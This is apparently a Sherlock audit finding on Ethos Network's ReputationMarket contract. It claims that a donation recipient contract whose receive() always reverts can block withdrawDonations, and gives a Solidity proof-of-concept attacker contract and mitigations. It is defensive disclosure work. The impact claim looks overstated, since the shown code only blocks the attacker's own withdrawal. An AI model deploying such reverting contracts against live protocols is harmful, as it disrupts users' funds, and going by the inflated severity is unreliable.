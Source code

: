 Fast Concrete Otter

Medium

# Malicious contract as a donation recipient can block withdraw donations

### Summary

Malicious contract as a `donationRecipient` linked to a `profileId` can block `ReputationMarket::withdrawDonations`.

Depending on how profiles are verified and whether they strictly represent wallet addresses, this issue may be irrelevant. However, according to the documentation for `EthosProfile.sol`:

> Users can associate multiple addresses with a single profile ID, enabling participation from any wallet they own.
> Users are encouraged to register different addresses with their profile ID.

This flexibility allows users to associate contract addresses with their `profileId`. A malicious contract linked as the `donationRecipient` could exploit this mechanism to block the `ReputationMarket::withdrawDonations` function, disrupting withdrawal services for the corresponding market.



### Root Cause

- In [`ReputationMarket::updateDonationRecipient::l.559`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L559C5-L559C49)] after checks new recipient is added permanently as the new `donationRecipient`.

- In [`ReputationMarket::withdrawDonations::l.580`](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol#L580) is sending ETH to the `donationRecipient` that could be a malicious contract.

### Internal pre-conditions

1. Ethos profile accepts contract as addresses linked to a specific id
2. Malicious contract needs to be in the list of addresses linked to the profile id and verified.

### External pre-conditions

_No response_

### Attack Path

1. Deploy a malicious contract capable of reverting on Eth transfers:
```solidity
contract AttackWithdrawDonations {
    ReputationMarket reputationMarket;

    constructor() {}

    function attackWithdraw(address _reputationMarket) public {
        ReputationMarket(_reputationMarket).withdrawDonations();
    }

    receive() external payable {
        revert(); // Blocks Ether transfers
    }
}
```

2. Associate the malicious contract with a `profileID` as the `donationRecipient` by calling `ReputationMarket::updateDonationRecipient`. This is feasible if `_ethosProfileContract().verifiedProfileIdForAddress(newRecipient)` allows contract addresses:
```solidity
uint256 recipientProfileId = _ethosProfileContract().verifiedProfileIdForAddress(newRecipient);
if (recipientProfileId != profileId) revert InvalidProfileId();
```

3. When the malicious contract attempts to withdraw donations via `ReputationMarket::withdrawDonations`, it will revert on Eth transfer:
```solidity
(bool success, ) = msg.sender.call{value: amount}("");
if (!success) revert FeeTransferFailed("Donation withdrawal failed");
```


### Impact

Even if the protocol has mechanisms to disallow malicious addresses, this attack could temporarily disable the withdrawal functionality, a critical feature of the market process. This could degrade user experience and impact market operations until the issue is resolved.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract ReputationMarket {

    error InsufficientFunds();
    error FeeTransferFailed(string message);
    error ZeroAddress();
    error InvalidProfileId();

    uint256 constant private PROFILE_ID = 777;

    mapping(address => uint256) public donationEscrow;
    mapping(uint256 => address) public donationRecipient;

    event DonationWithdrawn(address indexed recipient, uint256 amount);
    event DonationRecipientUpdated(
        uint256 indexed profileId, address indexed oldRecipient, address indexed newRecipient
    );

    constructor() payable {
        if (msg.value < 5 ether) revert("Not enough fund");
        donationEscrow[msg.sender] = msg.value;
        donationRecipient[PROFILE_ID] = msg.sender;
    }

    /**
     * @dev Updates the donation recipient for a market
     * @notice Only the current donation recipient can update the recipient
     * @notice The new recipient must have the same Ethos profileId as the market
     * @param profileId The profile ID of the market to update
     * @param newRecipient The new address to receive donations
     */
    function updateDonationRecipient(uint256 profileId, address newRecipient) public {
        if (newRecipient == address(0)) revert ZeroAddress();

        // if the new donation recipient has a balance, do not allow overwriting
        // this is so rare, do we really need a custom error?
        // @audit-gas consider using custom event -> Yes for gas opti
        require(donationEscrow[newRecipient] == 0, "Donation recipient has balance");

        // Ensure the sender is the current donation recipient
        if (msg.sender != donationRecipient[profileId]) revert InvalidProfileId();

        // Ensure the new recipient has the same Ethos profileId

        // @audit-issue the only check possible to avoid a bad contract address (only wallet?)
        // uint256 recipientProfileId = _ethosProfileContract().verifiedProfileIdForAddress(newRecipient);
        // if (recipientProfileId != profileId) revert InvalidProfileId();

        // Update the donation recipient reference
        donationRecipient[profileId] = newRecipient;
        // Swap the current donation balance to the new recipient
        donationEscrow[newRecipient] += donationEscrow[msg.sender];
        donationEscrow[msg.sender] = 0;
        emit DonationRecipientUpdated(profileId, msg.sender, newRecipient);
    }


    /**
     * @dev Allows a user to withdraw their accumulated donations from escrow
     * @return amount The amount withdrawn
     */
    function withdrawDonations() public returns (uint256) {
        uint256 amount = donationEscrow[msg.sender];
        if (amount == 0) {
            revert InsufficientFunds();
        }

        // Reset escrow balance before transfer to prevent reentrancy
        donationEscrow[msg.sender] = 0;

        // Transfer the funds
        (bool success,) = msg.sender.call{value: amount}("");
        if (!success) revert FeeTransferFailed("Donation withdrawal failed");

        emit DonationWithdrawn(msg.sender, amount);
        return amount;
    }
}

contract AttackWithdrawDonations {
    ReputationMarket reputationMarket;

    constructor() {}

    function attackWithdraw(address _reputationMarket) public {
        ReputationMarket(_reputationMarket).withdrawDonations();
    }

    receive() external payable {
        revert();
    }
}
```

### Mitigation

Evaluate the verification process for profiles to ensure malicious contract addresses cannot be added to the `profileId` list. This could involve:

1. Enhancing guards in `_ethosProfileContract().verifiedProfileIdForAddress` to disallow contract addresses.
2. Restricting the `profileId` list to include only externally owned accounts (EOAs).
3. Implementing additional validation when updating the `donationRecipient` to mitigate such risks.

This approach ensures that only legitimate wallet addresses can act as `donationRecipient`, preventing malicious contracts from disrupting withdrawal functionality.